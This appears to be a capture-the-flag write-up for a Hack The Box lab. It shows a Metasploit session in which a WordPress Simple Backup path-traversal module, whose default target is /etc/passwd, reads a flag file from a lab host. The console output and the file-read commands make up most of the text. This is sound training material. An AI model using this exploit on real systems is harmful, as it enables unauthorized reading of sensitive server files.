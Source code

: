 ```
   3  auxiliary/scanner/http/wp_simple_backup_file_read                       normal     No     WordPress Simple Backup File Read Vulnerability
   4  auxiliary/scanner/http/wp_total_upkeep_downloader      2020-12-12       normal     No     WordPress Total Upkeep Unauthenticated Backup Downloader
   5  auxiliary/scanner/http/wp_bulletproofsecurity_backups  2021-09-17       normal     No     Wordpress BulletProof Security Backup Disclosure
   6  exploit/multi/http/wp_plugin_backup_guard_rce          2021-05-04       excellent  Yes    Wordpress Plugin Backup Guard - Authenticated Remote Code Execution


Interact with a module by name or index. For example info 6, use 6 or use exploit/multi/http/wp_plugin_backup_guard_rce

msf6 > use 3
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
FILEPATH => /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 94.237.59.206
RHOSTS => 94.237.59.206
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 38150
RPORT => 38150
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > run

[+] File saved in: /home/kali/.msf4/loot/20231012104617_default_94.237.59.206_simplebackup.tra_541082.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > 
```

This gave us the flag:
```
$ cat /home/kali/.msf4/loot/20231012104617_default_94.237.59.206_simplebackup.tra_541082.txt
HTB{my_f1r57_h4ck}
```